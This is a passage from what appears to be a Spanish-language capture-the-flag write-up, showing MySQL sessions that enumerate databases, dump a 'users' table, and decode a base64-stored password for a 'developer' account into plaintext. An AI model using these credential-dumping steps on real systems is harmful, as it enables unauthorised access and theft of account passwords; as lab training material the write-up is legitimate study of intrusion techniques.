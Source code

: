 Enumero las bases de datos

```null
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.056 sec)
```

Encuentro la contraseña del usuario developer

```null
MySQL [(none)]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.062 sec)

MySQL [whackywidget]> describe users;
+-------+--------------+------+-----+---------+-------+
| Field | Type         | Null | Key | Default | Extra |
+-------+--------------+------+-----+---------+-------+
| user  | varchar(255) | YES  |     | NULL    |       |
| pass  | varchar(255) | YES  |     | NULL    |       |
+-------+--------------+------+-----+---------+-------+
2 rows in set (0.049 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.047 sec)
```

Está en base64. Le hago el proceso inverso

```null
echo YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== | base64 -d
anEnglishManInNewYork027468
```
